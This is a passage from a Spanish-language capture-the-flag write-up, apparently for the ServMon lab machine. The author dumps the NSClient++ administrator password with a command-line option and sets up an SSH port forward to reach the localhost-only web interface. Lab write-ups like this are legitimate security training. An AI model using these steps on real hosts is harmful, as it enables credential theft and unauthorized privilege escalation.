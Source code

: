 Entonces replicando la PoC, esta menciona que se puede ver credenciales de administrador en cierta ruta, replicando esto.
~~~bash
PS > cd C:\Program Files\NSClient++
PS C:\Program Files\NSClient++> .\nscp.exe  web -- password --display
Current password: ew2x6SsGTxjRwXOT
~~~
Obteniendo una contraseña, ahora debo loguearme y habilitar ciertos modulos.

![](servmon6.jpg)

Al colocar la contraseña esta no funciona. 

### Port forwarding servicio NSClient++
Pero pensando, como es parte de la escalada de privilegios, puede que tenga una protección para que solo se pueda acceder a ella desde dentro del servidor, por lo que se hace un port forwarding aprovechando que tiene ssh.
~~~bash
ssh -L 8443:127.0.0.1:8443 nadine@10.10.10.184
nadine@10.10.10.184's password: 
Microsoft Windows [Version 10.0.17763.864]
(c) 2018 Microsoft Corporation. All rights reserved. 
                                                     
nadine@SERVMON C:\Users\Nadine>
~~~
Con este comando envio todo el puerto 8443 del servidor a mi puerto como localhost.
Entrando como local host y probando la contraseña, ahora si se tiene acceso.

![](servmon7.jpg)
